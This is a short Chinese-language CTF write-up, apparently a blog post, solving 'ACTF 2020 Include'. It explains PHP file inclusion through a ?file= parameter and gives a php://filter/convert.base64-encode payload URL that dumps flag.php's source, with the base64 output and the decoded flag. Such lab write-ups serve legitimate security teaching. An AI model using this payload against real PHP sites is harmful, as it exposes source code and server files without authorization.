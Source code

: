 ```yaml
---
title: ACTF 2020 Include
subtitle: 
date: 2023-11-06T12:53:29+08:00
slug: 85d9197
draft: false
tags:
  - 任意文件读取
categories:
  - CTF
---
```


<!--more-->
# ?file=xxx

  

用burp suite读取到（其实直接看URL也能看到，本题属于hackbar都不用的）：

```http

GET /?file=flag.php HTTP/1.1

```

  

---

  

# =php://filter

  

- 1.php://filter 可以获取指定文件源码，`php://filter`与包含函数结合时，`php://filter`流会被当作php文件执行。

所以我们一般对其进行编码，阻止其不执行。从而导致任意文件读取。

  

- 2.`php://filter`伪协议文件包含读取源代码，加上`(read=)convert.base64-encode`，（那个`read=`本题可以不用添加），用base64编码输出，不然会直接当做php代码执行，看不到源代码内容。

  

---

  

# payload

  

```http

http://xxx.com/?file=php://filter/convert.base64-encode/resource=flag.php

```

  

得到`PD9waHAKZWNobyAiQ2FuIHlvdSBmaW5kIG91dCB0aGUgZmxhZz8iOwovL2ZsYWd7MDc1MmI3NDYtZWI2Yi00NjZkLWE4MWMtNGYzZTdhYWNjYzQ3fQo=`

因为是经过base64编码后输出的结果，所以进行base64解码后可以得到：

```php

<?php

echo "Can you find out the flag?";

//flag{0752b746-eb6b-466d-a81c-4f3e7aaccc47}

```

也就得到了flag。
